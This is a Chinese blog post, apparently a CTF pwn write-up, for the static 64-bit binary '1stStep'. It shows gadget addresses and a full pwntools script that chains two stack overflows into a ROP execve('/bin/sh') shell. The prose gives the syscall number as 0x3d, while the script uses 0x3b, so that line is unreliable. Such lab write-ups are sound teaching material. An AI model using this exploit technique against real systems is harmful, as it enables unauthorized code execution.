 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      1stStep				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-7.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
---
```




### 1stStep

#### 考点

- ida、ROPgadget工具的使用
- 多次栈溢出攻击的原理的理解
- 对汇编语言的理解

#### 解题过程

- 使用`checksec、file`工具查看文件`./1stStep`信息：

![checksec](/img/posts/2023-10-23-1stStep/images/checksec.png)

![file](/img/posts/2023-10-23-1stStep/images/file.png)

​		可见`./1stStep`文件为64位程序，启动了DEP保护，使用静态链接。

- 使用`ida`工具打开文件，进行反编译，`main`函数如下，可见main函数内有两个函数banner、vuln，查看两个函数内部逻辑。

  `main`

![main](/img/posts/2023-10-23-1stStep/images/main.png)

​		`banner`：输出提示信息

![banner](/img/posts/2023-10-23-1stStep/images/banner.png)

​		`vuln`：接收用户输入，`read`函数存在栈溢出漏洞。

![vuln](/img/posts/2023-10-23-1stStep/images/vuln.png)

- 经过`ida`静态分析，发现文件内部并没有`system`和`"/bin/sh"`字符串可供利用，因此尝试通过寻找`syscall`函数来执行命令`exceve("/bin/sh", 0, 0)`，`exceve`命令为`0x3d`，`"/bin/sh"`命令可以通过`read`函数传入文件数据存储区域中（`.bss`或`.data`，要求可读可写）。通过`ida`工具获取重要地址，通过`ROPgadget`工具获取`pop rdi, ret`等片段的地址：

| 函数                | 地址               |
| ------------------- | ------------------ |
| `main`              | 0x0000000000400AA4 |
| `vuln`              | 0x0000000000400A6C |
| `read`              | 0x000000000043FDF0 |
| `syscall`           | 0x000000000043F435 |
| `mov rax rdi ; ret` | 0x0000000000417260 |
| `pop rdi; ret`      | 0x00000000004016e6 |
| `pop rsi; ret`      | 0x0000000000401807 |
| `pop rdx; ret`      | 0x00000000004432a6 |
| `"/bin/sh"`         | 0x00000000006CCC72 |
| `ret`               | 0x0000000000400AC2 |

- 进行栈溢出攻击的过程：首先在`vuln`函数处制造栈溢出，调用`read`函数将`"/bin/sh"`函数传入文件地址`0x00000000006CCC72`中，`payload1`构造为`b'a' * (0x20 + 8) + ret + pop rdi + 0 + pop rsi + bss_addr + pop rdx + 8 + read + main_addr`，然后继续制造栈溢出，调用`syscall`函数，执行命令，构造`payload2`为`b'a' * (0x20 + 8) + pop_rdi + 0x3b + mov_rax_rdi + pop rdi + "/bin/sh" addr + pop rsi + 0 + pop rdx + 0 + syscall `。

- 构造python脚本，如下，由于未查询到标准的`pop rax ; ret`片段，使用了`mov rax rdi ; ret`片段先赋值给rdi，然后再赋值给rax：

  ```python
  from pwn import *
  
  # 启动进程
  context(arch='amd64', log_level='debug')
  p = process('./1stStep')
  
  # 设置参数, payload
  mov_rax_rdi = 0x417260
  pop_rdi = 0x4016e6
  pop_rsi = 0x401807
  pop_rdx = 0x4432a6
  syscall = 0x43F435
  bss = 0x6CCC72
  vul = 0x400A6C
  read = 0x43FDF0
  ret = 0x400AC2
  main_addr = 0x400AA4
  
  # 第一次将"/bin/sh"写入内存
  p.recvuntil("Go explore and exploit here\x1B[0m")
  payload1 = flat(b'A'*(0x20 + 8), ret, pop_rdi, 0, pop_rsi, bss, pop_rdx, 8, read, main_addr)
  
  p.send(payload1)
  p.send("/bin/sh\x00")
  
  # 然后进行ROP攻击
  p.recvuntil("Go explore and exploit here\x1B[0m")
  # gdb.attach(p, "b *0x400AA2")
  payload2 = flat(b'A'*(0x20 + 8), pop_rdi, 0x3b, mov_rax_rdi, pop_rdi, bss, pop_rsi, 0, pop_rdx, 0, syscall)
  p.send(payload2)
  p.interactive()
  ```

#### 结果

成功执行命令，如下图：

![result](/img/posts/2023-10-23-1stStep/images/result.png)
